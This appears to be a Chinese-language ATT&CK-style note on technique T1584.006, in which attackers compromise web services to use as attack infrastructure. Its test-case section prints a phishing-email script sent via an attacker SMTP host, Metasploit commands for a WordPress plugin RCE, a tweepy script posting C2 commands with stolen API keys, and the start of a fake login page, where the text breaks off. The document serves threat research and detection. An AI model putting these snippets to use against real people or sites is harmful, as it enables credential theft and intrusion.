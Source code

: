# T1584-006-入侵基础设施-web服务

## 描述
在入侵目标组织之前，攻击者可能通过劫持第三方Web服务来支持目标定位和攻击执行。Web服务包括社交媒体平台（如Twitter、Facebook）、云存储服务（如Google Drive、Dropbox）、代码托管平台（如GitHub、GitLab）以及内容管理系统（如WordPress）。攻击者通过窃取合法用户的账户凭据或利用Web服务的漏洞，获取对这些服务的控制权，并将其用作攻击基础设施。这些服务可能在攻击生命周期的后期阶段被滥用，例如用于命令与控制（C2）（T1102）、数据泄露（T1567）或钓鱼（T1566）。由于Web服务的高普及性和信任度，攻击者可以利用其正常流量掩盖恶意活动，增加被追踪的难度。

攻击者可能通过以下方式入侵Web服务：
- **凭据窃取**：通过钓鱼、凭据填充或恶意软件获取合法用户的账户凭据。
- **漏洞利用**：利用Web服务平台的漏洞（如WordPress插件漏洞）获得控制权。
- **社会工程**：通过伪装身份攻击Web服务提供商的客户支持，获取账户访问权限。
- **API滥用**：利用窃取的API密钥，通过Web服务API执行恶意操作。
- **接管现有资源**：控制被遗弃或未保护的Web服务资源（如未续费的GitHub Pages站点）。

入侵的Web服务可用于托管钓鱼页面、分发恶意软件、传输C2指令或存储窃取数据，其隐蔽性使其成为攻击者的理想选择。

## 测试案例
以下是模拟攻击者入侵Web服务的常见方法和案例：
- **凭据窃取**：
  - 通过钓鱼邮件获取GitHub账户凭据，控制GitHub Pages站点。
    ```python
    import smtplib
    from email.mime.text import MIMEText
    msg = MIMEText("Reset your GitHub password: http://fake-github.com/reset")
    msg['Subject'] = 'Urgent: GitHub Account Security'
    msg['From'] = 'support@fake-github.com'
    msg['To'] = 'user@target.com'
    with smtplib.SMTP('smtp.attacker.com') as server:
        server.login('user', 'pass')
        server.send_message(msg)
    ```
- **WordPress漏洞利用**：
  - 利用WordPress插件漏洞（如WP File Manager CVE-2020-25213）执行远程代码，控制站点。
    ```bash
    # 使用Metasploit攻击WordPress漏洞
    msfconsole
    use exploit/multi/http/wp_file_manager_rce
    set RHOST <WORDPRESS_IP>
    exploit
    ```
- **API滥用**：
  - 使用窃取的Twitter API密钥发送C2指令。
    ```python
    import tweepy
    auth = tweepy.OAuthHandler("stolen_consumer_key", "stolen_consumer_secret")
    auth.set_access_token("stolen_access_token", "stolen_access_token_secret")
    api = tweepy.API(auth)
    api.update_status("encoded_C2_command:execute_payload")
    ```
- **接管遗弃资源**：
  - 控制未续费的Google Sites页面，托管钓鱼页面。
    ```html
    <html>
    <head><title>TargetCorp Login</title></head>
    <body>
        <form id="login-form">
            <input type="text" id="username" placeholder="Username">
            <input type="password" id="password" placeholder="Password">
            <input type="submit" value="Login">